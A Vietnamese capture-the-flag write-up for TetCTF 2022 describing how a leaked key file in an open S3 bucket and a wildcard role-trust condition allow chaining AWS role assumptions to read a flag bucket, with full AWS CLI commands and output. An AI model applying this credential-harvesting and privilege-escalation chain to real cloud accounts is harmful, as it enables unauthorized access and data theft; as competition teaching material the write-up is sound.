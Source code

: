 ```yaml
---
title: TetCTF 2022 | Web Exploitation | 2X-Service
date: 2022-01-03-15:17:00
---
```


# Picked onion

![chall](https://user-images.githubusercontent.com/82533607/147910715-ae6e2f99-a294-4397-88bb-878d50561751.png)

## Reconaisance

Truy cập vào URL, ta thấy có một mục có tên là `Secret`, thử truy cập và thấy một bức ảnh. Ctrl U (view-source) thì thấy bức ảnh `href` là một `s3 bucket` có tên là `secret-tetctf`:


![secret_img](https://user-images.githubusercontent.com/82533607/147911410-fa0489b2-e116-4a55-8f8c-3ebfe9588b4f.png)

Điều đáng chú ý ở đây, là khi sửa URL thành `https://secret-tetctf.s3.amazonaws.com/` thì ta thấy:


![first_leak](https://user-images.githubusercontent.com/82533607/147911956-a3d47c09-f901-4263-8f59-76a4fab0140e.png)

Có thể chia làm 3 đoạn như sau:

```
secret-tetctf1000false
I've_Got_a_Secret.jpg2021-12-31T07:12:14.000Z"8176cb55798ee6c7df58496312ca82d8"12949STANDARD
secret2021-12-31T07:15:50.000Z"1ace2f1a8925799880ad32ef47b3e9d9"1239STANDARD
```

Đây là một lỗi Access Control của S3 Bucket, tại đây, ta có thể thấy còn một file `secret` nữa, mình sẽ tải nó về bằng URL: `https://secret-tetctf.s3.amazonaws.com/secret` và đọc nó:


![secret_file](https://user-images.githubusercontent.com/82533607/147912573-6842e886-3c0d-4e54-a0bf-2e909c343f7e.png)

Ta thu được `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` và `REGION_NAME` của IAM User được sử dụng cho `dynamodb`.

## Exploit

Ban đầu khi đọc qua source code thì mình thấy nó giống hoàn toàn với [bài viết này](https://ctrsec.io/index.php/2021/12/19/python-deserialization-on-integrated-aws-ddb-flask-app/) của anh Chi Tran, nhưng tất nhiên, nếu vậy thì đơn giản quá:

![fail_1](https://user-images.githubusercontent.com/82533607/147912969-f153ba6d-61a9-491f-8b65-1ee78a979c63.png)

Có thể thấy, vấn đề ở đây là IAM User ddb_user mà ta ddnag sử dụng không có quyền hạn gì mấy để thực hiện exploit như bài viết ở trên.

Sau một hồi lục lọi trên doc của AWS thì mình thấy điều này:

```console
$ aws iam list-roles
{
    "Roles": [
        ...
        {
            "Path": "/",
            "RoleName": "CTF_ROLE",
            "RoleId": "AROAXNIS54O****************",
            "Arn": "arn:aws:iam::************:role/CTF_ROLE",
            "CreateDate": "2021-12-29T15:30:56Z",
            "AssumeRolePolicyDocument": {
                "Version": "2008-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "*"
                        },
                        "Action": "sts:AssumeRole",
                        "Condition": {
                            "StringLike": {
                                "aws:PrincipalArn": "arn:aws:iam::*:role/*-Accessing_Tet_CTF_Flag*"
                            }
                        }
                    }
                ]
            },
            "Description": "CTF_ROLE",
            "MaxSessionDuration": 3600
        }
    ]
}

```

Cùng hiểu một chút về đoạn JSON ở trên nhé?

Đây là một policy cho việc AssumeRole, ta thu được khá nhiều thông tin, đặc biệt nhất là Condittion cho việc AssumeRole, đó là chuỗi PrincipalArn trong request phải chứa một chuỗi `<anything>-Accessing_Tet_CTF_Flag<anything>`, cụ thể hơn thì chính xác cái user gửi request AssumeRole phải mang một IAM Role có tên với định dạng kể trên, như vậy, để thực hiện exploit, ta cần:

- Tạo một IAM User.

- Tạo một IAM Role có tên dưới dạng `<anything>-Accessing_Tet_CTF_Flag<anything>` mà IAM User vừa tạo có thể AssumeRole được.

- AssumeRole `<anything>-Accessing_Tet_CTF_Flag<anything>` vào IAM User đã tạo và lưu các creditials được trả về.

- AssumeRole `CTF_ROLE` ở trên và IAM User đã tạo, lưu lại creditials được trả về.

Giải thích lại một chút về ARN trong AWS, ARN là một chuỗi có dạng: `arn:partition:service:region:account:resource`, khi IAM User gửi bất kì request nào có yêu cầu credential, các chuỗi ARN sẽ được gửi đi, và chúng ta có thể sử dụng các chuỗi ARN này để viết policy phân quyền theo IAM Role cho các IAM User với điều kiện cụ thể.

Quay lại với vấn đề chính, vì không có AWS account để tạo IAM User nên mình đã inbox mượn anh Chi Tran một IAM User.

Sử dụng `aws configure` và điền các thông tin vào:

```console
$ aws configure
AWS Access Key ID [********************]: AKIAXNIS************
AWS Secret Access Key [********************]: VmK2ZWUVZ************************
Default region name [us-east-1]: 
Default output format [json]: 
```

Sau đó, tạo một file `Trust-policy.json`, sử dụng làm Policy cho Role mới (đừng làm theo ở thực tế, vì lý do bảo mật):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*" // allow all, no condittion
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

Và sử dụng `aws iam create-role --role-name <anything>-Accessing_Tet_CTF_Flag<anything> --assume-role-policy-document file://Trust-policy.json` để tạo Role, nhớ note lại ARN ở output

AssumeRole:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/<anything>-Accessing_Tet_CTF_Flag<anything>" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/<anything>-Accessing_Tet_CTF_Flag<anything>/<anyname>"
    }
}
```

Lưu credential vào Env:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Tiến hành AssumeRole `CTF_ROLE`:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/CTF_ROLE" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/CTF_ROLE/<anyname>"
    }
}
```

Và lại lưu credentials:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Lúc này, ta đã có Role CTF_ROLE, nếu chưa chắc chắn, có thể kiểm tra bằng `aws sts get-caller-identity`, nếu thấy CTF_ROLE thì đã thành công.

Tiến hành list các bucket:

```console
$ aws s3api list-buckets --query "Buckets[].Name"
[
    "secret-tetctf",
    "tet-ctf-secret"
]
```

Vậy là ta thấy thêm một bucket nữa tên là `tet-ctf-secret`, kiểm tra xem trên đó có gì:

```console
$ aws s3 ls s3://tet-ctf-secret
2021-12-29 22:18:42         29 flag
```

Có file flag, thử lấy nó về và đọc:

```console
$ aws s3 cp s3://tet-ctf-secret/flag flag
download: s3://tet-ctf-secret/flag to ./flag 

$ cat flag
TetCTF{AssumE_R0le-iS-A-MuSt}
```

Done, flag: `TetCTF{AssumE_R0le-iS-A-MuSt}`

> Cảm ơn anh Chi Tran, đồng thời là người ra đề của chall này, đã cho em mượn IAM User và chỉ dẫn em trong quá trình giải, cũn như là học thêm kiến thức mới!